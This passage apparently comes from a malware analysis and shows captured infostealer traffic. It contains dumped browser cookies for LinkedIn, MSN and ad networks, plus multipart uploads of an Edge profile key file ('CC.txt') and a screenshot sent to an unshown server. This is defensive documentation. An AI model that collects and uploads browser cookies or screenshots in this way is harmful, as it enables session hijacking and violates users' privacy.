 ```
.mgid.com    TRUE    /    TRUE    13327360109077178    __cf_bm    djEwuOMSO7Eh4PPXJ1zPIYgRyVddlQf7aKzrWQjrdR7mSyuknJ9fnoe+fnJnJ9A89/RTOcSYHaZHieLIfUbPF7sOP1UvnvInHtN+MKsdpCfItdFCjV2Rj504+HjoHQGdQnZDj8E3A3miTcHhqeRcX/XnPdlUgn6ANQY6kyMpeow7VYQlrF0QNgV1BlTcK94KtHoRSlv5EsH/S5n4cZNLKuOsGrxghwQrpwOR2CiSNoE=
.mediago.io    TRUE    /    TRUE    13358894310123922    __mguid_    djEwbqTE55ezdvHBXy13Enbi+178RvNOuWt6LL/Zj4t7lm2tdiVAPOV2YLHrHzbYDB0tuY0pufzbUiUnrMnT
.popin.cc    TRUE    /    TRUE    13358894310826246    __mguid_    djEwNmfsEZO4d2XGGkhSyxs73hmq7oH6FqzktoCzvMfTkDIbVCxKscJQoOzzyJNOnq9WyuEqJIcXS6V5vmD4
.adnxs.com    TRUE    /    TRUE    13335134310134879    anj    djEwMbfw2t0OwPKAFhvbbktZ91xO6Z+3ahrmKuFPWFUZJv3QGOGzy0PatblQRiAdGzGziiEVHHbf+romNB3WXn708g8CC70e3zUOWC+cqTM67LOm6TIzXBZ1UjGDV4eUiYtgjZFI+J230oFAJNuDCP5DY7kt0uy+wu04atohg/PAvyfSvS1lJOQ2vtjhwEDhDLgp83apYQ==
.linkedin.com    TRUE    /    TRUE    13358894308522104    bcookie    djEwJkF/aiIUkc3OER39+XCtMBArffrqrZiJiUYpIHpuvkAaVxUG1Mo56Dm6b7NhVlFs6Xi7VT96N1fMVb1msjj9ALHiD32QBQ==
.linkedin.com    TRUE    /    TRUE    13327444708522173    lidc    djEwvq2an0jaPSmqYOhZxuxWOVri0+atHnWbNYdx7jCiBGlAs2vU4jVY4BJdOhEhn4zLzKXXbstJCtWdQTF/X+7xot9n40uAj92rzzsapmJwAM88rV756eXvDiebDdP+g6PKjp+k5Ca1ct0bBEpTOmgR4ij0fUs9y5frquw0TTisrz8LHxShHMJeTQ==
cm.mgid.com    TRUE    /    TRUE    13329950309141072    mg_sync    djEwOEHqbk76febfamwD+wP53mxSTNNnQt4V4fPCI/bgGaENoAjGfGMWXSUUIU4yV9sL3w==
.mgid.com    TRUE    /    TRUE    13358894309077108    muidn    djEwhOLg80KSeKqxv1EMyLPRBZGvQ9ITZRi03qP/br3hbqbSKN4OY3zsrw==
.msn.com    TRUE    /edge    FALSE    13343083106000000    pglt-edgeChromium-dhp    djEweOSkynxMHY3j9fvYE+RyvTwvSm5CTRGViF8zeXfILdk=
ntp.msn.com    TRUE    /    FALSE    13361918306371488    sptmarket    djEwnFkB7V+VF+t7oqc5JHpgHZ5HHD8eXPlmAlPATOLNNE03lvV8gKOHt+s7H11AlZwg9kd0TInNtBG0up5MzGW7E2kG/O4Bq7ezFGhDFpknLeL0jwmpJhPQkvMhZJrPnN59FnDhvuGVKPIwiNIX6j733NYfgVus
.adnxs.com    TRUE    /    TRUE    13335134310134914    uuid2    djEwUCYepvQW/xl2mW+8eRHz4aNErDXA0KNiD6hwToXq/cQpms1EXNuF8Z9z0S0vWg==
C:\Users\User\AppData\Local\Microsoft\Edge\User Data\Default|+GMiWVsFjgErPV5sGizafV4Ltvpb4SyJ2ur7vfWMNsw=|106.0.1370.52-64
--KjK4ma99z46dDd7G
Content-Disposition: form-data; name="file"; filename="\CC.txt"
Content-Type: application/x-object

C:\Users\User\AppData\Local\Microsoft\Edge\User Data\Default|+GMiWVsFjgErPV5sGizafV4Ltvpb4SyJ2ur7vfWMNsw=|106.0.1370.52-64

--KjK4ma99z46dDd7G--
```

Request 3:
```
--82izw0y2587F6Nfq
Content-Disposition: form-data; name="file"; filename="---Screenshot.jpeg"
Content-Type: application/x-object

ÿØÿà JFIF  ` `  ÿÛ C         
 $.' ",#(7),01444'9=82<.342ÿÛ C            2!!22222222222222222222222222222222222222222222222222ÿÀ J
 " ÿÄ           
ÿÄ µ   } !1AQa"q2‘¡#B±ÁRÑð$3br‚
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyzƒ„…†‡ˆ‰Š’“”•–—˜™š¢£¤¥¦§¨©ª²³´µ¶·¸¹ºÂÃÄÅÆÇÈÉÊÒÓÔÕÖ×ØÙÚáâãäåæçèéêñòóôõö÷øùúÿÄ        
ÿÄ µ  w !1AQaq"2B‘¡±Á    #3RðbrÑ

(.. TRUNCATED ..)
```
